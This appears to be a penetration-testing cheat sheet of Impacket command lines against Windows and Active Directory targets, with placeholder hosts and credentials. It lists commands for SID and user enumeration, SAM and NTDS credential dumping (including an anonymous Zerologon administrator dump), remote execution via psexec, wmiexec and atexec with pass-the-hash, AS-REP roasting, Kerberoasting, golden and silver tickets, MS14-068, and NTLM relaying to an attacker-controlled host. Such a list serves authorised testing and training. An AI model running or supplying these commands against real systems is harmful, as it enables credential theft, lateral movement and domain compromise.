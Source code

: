 # Impacket

% impacket, windows, smb, 445

## smbclient - connect to smb on the target
```
smbclient.py <domain>/<user>:<password>@<ip>
```

## smbserver - share smb folder
```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
```
lookupsid.py <domain>/<user>:<password>@<ip>
```

## reg - query registry info remotely
```
reg.py <domain>/<user>:<password>@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

## rpcdump - list rpc endpoint
```
rpcdump.py <domain>/<user>:<password>@<ip>
```

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
```
services.py <domain>/<user>:<password>@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```

## secretsdump
```
secretsdump.py '<domain>/<user>:<pass>'@<ip>
```

## secretsdump local dump hash
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator (zerologon)
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

% impacket, windows, exec

## PSEXEC with username // create a new service (using \pipe\svcctl via SMB)
```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth) // create a new service (using \pipe\svcctl via SMB)
```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos // create a new service (using \pipe\svcctl via SMB)
```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth) - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py -hashes <hash> <user>@<ip> "command"
```

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoast)
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impresionate user
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
```
ntlmrelayx.py -tf <targets_file> -e <payload_file>
```

## ntlmrelay - to use with mitm6 - relay to client
```
ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - relay to target
```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
